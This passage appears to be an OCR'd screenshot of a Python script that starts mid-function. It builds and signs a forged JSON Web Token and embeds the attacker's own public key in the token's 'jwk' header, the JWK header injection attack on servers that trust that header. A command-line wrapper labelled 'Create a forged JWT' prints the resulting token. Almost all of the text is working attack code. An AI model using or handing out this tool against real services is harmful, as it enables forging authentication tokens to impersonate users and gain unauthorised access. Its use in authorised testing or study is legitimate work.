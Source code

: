 ```python
    private_key = serialization.load_pem_private_key(
        private_key_pem, 
        password=None, 
        backend=default_backend()
    )
    public_key = private_key.public_key()
    
    # Convert to JWK
    jwk_key = jwk.construct(public_key, algorithm='RS256')
    jwk_dict = jwk_key.to_dict()
    
    # Create JWT with jwk in header
    token = jwt.encode(
        jwt_payload, 
        private_key_pem, 
        algorithm='RS256', 
        headers={'jwk': jwk_dict}
    )
    
    if output_file:
        with open(output_file, 'w') as f:
            f.write(token)
    
    return token

def main():
    parser = argparse.ArgumentParser(description='Create a forged JWT with jwk header')
    parser.add_argument('--payload', type=str, required=True, help='JSON payload string')
    parser.add_argument('--key', type=str, required=True, help='Path to private key file')
    parser.add_argument('--output', type=str, help='Output file for the JWT')
    
    args = parser.parse_args()
    
    import json
    try:
        payload = json.loads(args.payload)
    except json.JSONDecodeError:
        print("Error: Invalid JSON payload")
        return
    
    token = create_forged_jwt(payload, args.key, args.output)
    print("Forged JWT:")
    print(token)

if __name__ == "__main__":
    main()
```